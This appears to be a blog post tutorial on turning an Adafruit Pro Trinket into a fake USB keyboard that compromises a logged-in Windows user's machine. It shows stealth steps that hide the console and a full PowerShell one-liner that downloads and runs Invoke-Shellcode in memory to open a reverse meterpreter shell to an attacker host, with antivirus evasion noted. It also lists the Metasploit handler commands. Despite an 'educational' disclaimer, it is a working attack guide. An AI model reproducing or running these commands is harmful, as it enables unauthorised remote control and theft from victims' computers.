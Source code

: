 ```yaml
---
layout: post
title: USB Keyboard Attack
excerpt: Learn how to turn the Adafruit Pro Trinket into a fake USB keyboard that will spawn a reverse meterpreter shell onto a victims computer.
tags: [exploitation, cyber-security, pro-trinket]
---
```


![alt text](https://cdn-learn.adafruit.com/guides/images/000/000/865/medium800/ProTrinketKeyboard_Example_Picture_Smaller.jpg?1448302050 "Adafruit ProTrinket")
Source: [Adafruit.com](https://www.google.com/url?sa=i&rct=j&q=&esrc=s&source=images&cd=&cad=rja&uact=8&ved=0ahUKEwjV842S7YrPAhVDMz4KHaC4DSYQjRwIBw&url=https%3A%2F%2Fwww.adafruit.com%2Fproduct%2F2010&psig=AFQjCNGeCb3p10lA_3DA50t_OYh1Ht8AKw&ust=1473804558096200){:target="_blank"}

***DISCLAIMER: I am not responsible for any illegal activities as a result of this material. This is for educational purposes only.***

If you have never heard of Adafruit, or the Trinket line, please check them out [here](https://www.adafruit.com){:target="_blank"}. They have all kinds of different development kits, and plenty of tutorials to get you started on some fun projects. The Pro Trinket is the larger version of the Trinket, with more RAM, flash, and GPIO pins (as well as some other updates). This article will explain how to setup the Pro Trinket to act as a usb keyboard when plugged into a computer. Computers inherently trust the keyboard, because they trust the user using it. What we will be doing is quickly installing a meterpreter shell (windows/meterpreter/reverse_https to be specific) on to a Windows machine.

### The Code
The code for this attack can be found at my [Github](https://github.com/willmfftt/ProTrinket_WinReverseShell){:target="_blank"}. Make sure to change the ATTACKER_IP to the IP address you will be running your meterpreter handler on, and set the ATTACKER_PORT to the port you want the shell to connect back to you with.

### Prerequisites for Attack
Unless you plan on replacing the backdoor with something completely different, the target must have PowerShell. The backdoor has only been tested on Windows 7 and Windows 10 so far, but it could possibly work on versions as low as Windows XP SP2. Also, while it should be obvious after reading this article, this can only be performed on a logged in user. However, Administrator privledges are not required :).

### What Does It Do?
So what it does is actually quite simple, especially since we are using the ProTinketKeyboard library (available [here](https://learn.adafruit.com/pro-trinket-keyboard/library){:target="_blank"}) which handles registering our device as a keyboard. All we do after that is press the Windows-R key to bring up the run box, then we type cmd to bring up the command line. After that we do a few things that aren't really needed for the attack, but make it a bit more stealthy. First we shrink the command prompt down as small as we can get it by running: ```mode con: cols=20 lines=1```. This sets the console to 20 characters wide by 1 character tall. Next we run ```COLOR FE``` which sets the background color to white, and the text color to light yellow. When all is said and done, we are left with a tiny command prompt that you can barely read text on. 

The next part is using PowerShell to download a script, load it into memory and execute it. The script that it loads is written by PowerShell Empire which offers a ton of different options. I actually found this PowerShell one-liner at [SHELLGAM3.COM](https://shellgam3.com/tag/reverse-shells/){:target="_blank"}, who has an excellent list of one-liner reverse shells. This is the command that gets run: ```powershell -nop -windowstyle hidden -NonInteractive -exec bypass -c IEX (New-Object Net.WebClient).DownloadString("https://raw.githubusercontent.com/PowerShellEmpire/Empire/master/data/module_source/code_execution/Invoke-Shellcode.ps1");invoke-shellcode -Payload windows/meterpreter/reverse_https -Lhost 52.37.4X.XXX -Lport 8443```. What's really neat about this script is that it includes Windows Metasploit payloads, and everything gets loaded into memory so no antivirus gets triggered. In the code i've provided, the only change that was made is the host and port have been moved into DEFINE constants and ```-f``` has been added which prevents the script from prompting the user to accept.

### What's Next?
Well first and foremost, you will need to flash the code onto the device. If you are not sure how to do this, please read the instructions found [here](https://learn.adafruit.com/introducing-pro-trinket/setting-up-arduino-ide){:target="_blank"}. Before you plug the device in, you will need to start metasploit on the attacking machine (*Note: The IP address of this machine must match the ATTACKER_IP in the source code*). Once you have metaspoit running, you will need to run these commands:
	
1. ```use exploit/multi/handler```
2. ```set payload windows/meterpreter/reverse_http```
3. ```set LHOST YOUR-IP-HERE```
4. ```set LPORT YOUR-PORT-HERE```
5. ```run -j```

And that's it! You're ready to plug in the device. When you plug the device in, once the red flashing indicator has stopped the device has started executing the code. You should see the run box quickly popup, then see the command prompt change size and color. Once the command prompt has closed, the attack is complete and you can remove the device. In a few moments you should see the meterpreter session has opened in metasploit. Congrats!

![alt text](/img/meterpreter_session.jpg "Meterpreter Session")

### Conclusion
While I may have written this article around using the Adafruit Pro Trinket, I would actually suggest using the regular Trinket instead. The Pro Trinket has both MicroUSB and FTDI for programming, so the bootloader stays active for quite some time (I think around 10 seconds) while it attempts to detect where the programming will occur. However, I had a Pro Trinket laying around, so that is what this is based on. From the documentation for the ProTrinketKeyboard library, it is written with the same syntax as the TrinketKeyboard library. So all you should need to do to convert this import the new library. I have not tested whether this conversion works or not, so don't hold me to it.